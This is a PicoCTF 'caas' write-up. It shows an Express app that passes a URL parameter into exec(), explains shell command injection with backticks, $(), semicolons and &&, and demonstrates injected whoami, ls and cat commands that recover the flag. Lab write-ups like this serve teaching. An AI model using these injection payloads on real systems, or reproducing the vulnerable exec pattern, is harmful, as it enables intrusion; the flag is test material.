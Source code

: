 ```yaml
---
title: "caas"
description: "Now presenting cowsay as a service\n\nhttps://caas.mars.picoctf.net/"
pubDate: 2025-03-13
ctf: "PicoCTF"
category: "web"
author: "sealldev"
section: "PicoCTF"
tags: ["medium"]
image: "./images/picoctf/caas/icon.png"
---
```


We are given an `index.js` file that has the source code for the webserver:
```javascript
const express = require('express');
const app = express();
const { exec } = require('child_process');

app.use(express.static('public'));

app.get('/cowsay/:message', (req, res) => {
  exec(`/usr/games/cowsay ${req.params.message}`, {timeout: 5000}, (error, stdout) => {
    if (error) return res.status(500).end();
    res.type('txt').send(stdout).end();
  });
});

app.listen(3000, () => {
  console.log('listening');
});
```

The application has a glaring vulnerability, it is using `exec()` with user input! This executes the input in a shell, we can use this to run other commands via a command injection!

Let's look at the remote web application first:
![home.png](images/picoctf/caas/home.png)

The application says to send a request to `/cowsay/{message}` which executes `cowsay` on the message (like the above source code).

There are a few ways to execute commands inside an existing command or to execute another command afterwards.
- We can use backticks to embed an existing command into a string:
```bash
$ echo "whoami"
whoami
$ echo "`whoami`"
user
```
- We can use `$()` as a command substitution like the backticks aswell:
```bash
$ echo "$(whoami)"
user
```
- We can use semicolons (`;`) to end the current command and run others:
```bash
$ /usr/games/cowsay a;whoami;
...
user
```
- We can use `&&` to append a command after the execution of the first:
```bash
$ /usr/games/cowsay a&&whoami
...
user
```

I'm going to use semicolons for my solution.

We can't just do `;whoami;` as without providing cowsay an input it will hang waiting for a string to print, so we can do `a;whoami;` to make it do `/usr/games/cowsay a;whoami;`

We can now do this on remote, let's visit `https://caas.mars.picoctf.net/cowsay/a;whoami;`.
```
 ___
< a >
 ---
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||
node
```

Perfect! The username of the current user is `node`! Let's run `ls` to look at the contents of the current directory. I use `https://caas.mars.picoctf.net/cowsay/a;ls;` and get the directory listing:
```
 ___
< a >
 ---
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||
Dockerfile
falg.txt
index.js
node_modules
package.json
public
yarn.lock
```

Let's read `falg.txt`, which seems to be a typo of `flag.txt`, using `cat` we can read it! `https://caas.mars.picoctf.net/cowsay/a;cat falg.txt;`
```
 ___
< a >
 ---
        \   ^__^
         \  (oo)\_______
            (__)\       )\/\
                ||----w |
                ||     ||
picoCTF{moooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo0o}
```

Flag: `picoCTF{moooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo0o}`
